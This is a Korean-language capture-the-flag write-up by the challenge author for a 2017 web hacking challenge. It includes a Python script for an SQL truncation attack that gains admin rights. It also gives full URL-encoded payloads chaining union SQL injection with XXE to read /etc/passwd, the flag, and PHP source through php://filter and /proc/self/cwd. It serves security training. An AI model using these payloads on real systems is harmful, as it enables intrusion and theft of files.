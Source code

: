 # WhiteHat League 1 - Demon CTF [![Awesome](https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg)](https://github.com/sindresorhus/awesome)
Win10 Write-Up - 출제자 풀이
-----------------------------------

## Introduce
* Author : 윤석찬 ([ch4n3](http://chaneyoon.tistory.com))
* Field  : Web Hacking
* E-Mail : chaneyoon@gmail.com
* Date   : 2017-09-12

## Intention
* 전체적인 컨셉으로는 실제 **리얼월드**에서 검색할 때 일어날 수 있는 취약점을 기본으로 함.
* 공격 벡터가 많은 웹 어플리케이션에서 취약한 벡터를 찾는 것이 관건이었음.
* 플래그 형식은 **Demon{...}**

## Solve
* [challenge url](http://108.61.161.168:8080/)

### 1. Functions Analyse
> 1. 먼저 공격 벡터가 있을 만한 기능부터 봐 보자
-   로그인 / 회원가입 기능 (아마도 SQL Injection)
-	메일 보내기 기능
-	중요 메일 확인, 내가 쓴 메일, 내가 받은 메일 확인 기능
-	Members라고 쓰여져 있는 관리자만 사용할 수 있는 기능


저 공격벡터 중에 관리자만 사용할 수 있는 기능이 수상한데,
어드민 권한을 획득하려면 뭔갈 해야하는 듯..?

공격 벡터 중에 어드민의 권한을 가져올 수 있는 방법이 있을까?

> 2. admin 권한 탈취
- 일단 XSS로 admin 권한을 획득할 수 있겠고..
- 만약에 회원가입에서 SQL Injection이 된다면 admin이라는 값을 자신의 임의대로 넣을 수도 있음ㅋㅋ
- 근데 아무리 SQLMAP같은 퍼저를 돌려도 회원가입에서 취약점이 안나올 것이다. 
왜냐면 addslashes()를 사용자의 모든 input에 대해 때려 박았거등요~~~~
- 그럼 역시 XSS로 해야되나.. 생각할 수도 있겠는데
정작 admin의 권한을 얻는 취약점은 회원가입 부분이다.
- 취약점은 바로 SQL Truncation Attack~~~~


다음 코드로 admin의 권한을 획득할 수 있다ㅋㅋㅋㅋ

```{.python}
#!/usr/bin/python
# coding: utf-8

import requests

url = 'http://108.61.161.168:8080/join/ok.php'

data = {
	'firstName'	: 'SoekChan',
	'lastName'	: 'Yoon',
	'age'		: 17,
	'id'		: 'admin' + ' ' * 100 + 'a',
	'password'	: 'tmxkdnjwm123',
	'password_confirmation': 'tmxkdnjwm123'
}

r = requests.post(url, data=data)
print(r.text)
```

> 3. admin 권한 획득 후 공격 진행
- admin 권한을 획득하면 members 탭에서 member들을 검색할 수 있는 권한을 얻는다.
- members에서 id를 입력하고 검색하면 해당 유저에 대한 정보들이 뜬다.
- 근데 정보를 얻는 방식이...?

    http://108.61.161.168:8080/members/beautify.php?url=http://108.61.161.168:8080/members/search.php?search=admin%26encoding=UTF-8 

- url 파라미터로 넘긴 값에 뭐가 있을지 한 번 들어가보자

    http://108.61.161.168:8080/members/search.php?search=admin&encoding=UTF-8   
- 위의 링크로 접속해보면 **xml 형식**으로 정보를 전달하는 것을 알 수 있다. (~~코럼 행님, XXE각 나오는 부분 ㅇㅈ? ㅇㅇㅈ~~)

> 4. Exploit Using XXE
- search.php 에서 검색을 할 때 **SQL Injection 취약점**이 발생한다는 것을 알 수 있다. 
- 엌ㅋㅋㅋㅋ 그럼 **union based SQLi**를 진행하면 xml 파일 조작 가능하고 고럼 쉽게 뚫릴 것 같은뎈ㅋㅋㅋ
- 근데 union sql injection으로 조작할 수 있는 범위는 한계가 있다. 
- 근데 encoding 파라미터는 뭐지..?
- encoding 파라미터를 변환시켜보면 xml파일의 **Prolog가 변한다**. (~~개꿀~~)
~~encoding값을 변화시켜 xml을 조작하는 것은 전혀 게싱이 아니다. 국내 포털사이트 중 이러한 방법을 통해서 exploit 할 수 있는 곳이 있다ㄷㄷ~~
- 그래서 두 취약점을 합쳐서 XXE를 진행할 수 있다. 
http://108.61.161.168:8080/members/search.php?search=%27union%09select%091,%22--%3E%3Cuser%3E%3Cid%3E%2526xxe;%22,3,4,5,6--%09-&encoding=UTF-8%22?%3E%3C!DOCTYPE%20foo%20[%20%3C!ELEMENT%20foo%20ANY%20%3E%20%3C!ENTITY%20xxe%20SYSTEM%20%22file:///etc/passwd%22%20%3E]%3E%3C!--
- 이렇게 XXE를 통해서 /etc/passwd를 읽어올 수 있다. 그럼 다시 beautify.php에 url 파라미터로 적절한 url encoding을 사용해서 접속해보자.
http://108.61.161.168:8080/members/beautify.php?url=http://108.61.161.168:8080/members/search.php?search=%27union%09select%091,%22--%3E%3Cuser%3E%3Cid%3E%2526xxe;%22,3,4,5,6--%09-%26encoding=UTF-8%22?%3E%3C!DOCTYPE%20foo%20[%20%3C!ELEMENT%20foo%20ANY%20%3E%20%3C!ENTITY%20xxe%20SYSTEM%20%22file:///etc/passwd%22%20%3E]%3E%3C!--
- 그리고 플래그는 최상위 경로에 있다고 했으니까 file:///flag 를 읽어오면 된다.

> 5. Other Exploit
- XXE를 통해서 읽기 권한이 있는 모든 파일에 접근할 수 있게 되었다. 
- 그럼 해당 어플리케이션의 소스는 볼 수 없을까?
- 당연히 있다. 하지만, 해당 웹 어플리케이션의 절대 경로를 알아내야 한다. ~~슈퍼게싱~~
- 는 구라고 절대경로를 알지 않고서도 소스를 볼 수 있다.
- 바로 /proc/self/cwd 를 이용하면 된다ㅋㅋㅋㅋㅋ
- file:///proc/self/cwd/index.php를 XXE로 읽어오려고 하면 어떤 이유에선지 되지 않는다.
- 하지만, php://filter/convert.base64-encode/resource=/proc/self/cwd/index.php로 읽어올 수 있는 것을 확인했다.
http://108.61.161.168:8080/members/beautify.php?url=http://108.61.161.168:8080/members/search.php?search=%27union%09select%091,%22--%3E%3Cuser%3E%3Cid%3E%2526xxe;%22,3,4,5,6--%09-%26encoding=UTF-8%22?%3E%3C!DOCTYPE%20foo%20[%20%3C!ELEMENT%20foo%20ANY%20%3E%20%3C!ENTITY%20xxe%20SYSTEM%20%22php://filter/convert.base64-encode/resource=/proc/self/cwd/index.php%22%20%3E]%3E%3C!--
- 그리고 웹 디렉토리 최상위 경로에 있는 index.php도 볼 수 있다. 
http://108.61.161.168:8080/members/beautify.php?url=http://108.61.161.168:8080/members/search.php?search=%27union%09select%091,%22--%3E%3Cuser%3E%3Cid%3E%2526xxe;%22,3,4,5,6--%09-%26encoding=UTF-8%22?%3E%3C!DOCTYPE%20foo%20[%20%3C!ELEMENT%20foo%20ANY%20%3E%20%3C!ENTITY%20xxe%20SYSTEM%20%22php://filter/convert.base64-encode/resource=/proc/self/cwd/../index.php%22%20%3E]%3E%3C!--
이렇게
- 그리고 자신이 알고 있는 다른 취약점을 찾아서 exploit 해보면 된다. 
~~근데 나는 모르겠다~~

# 끝

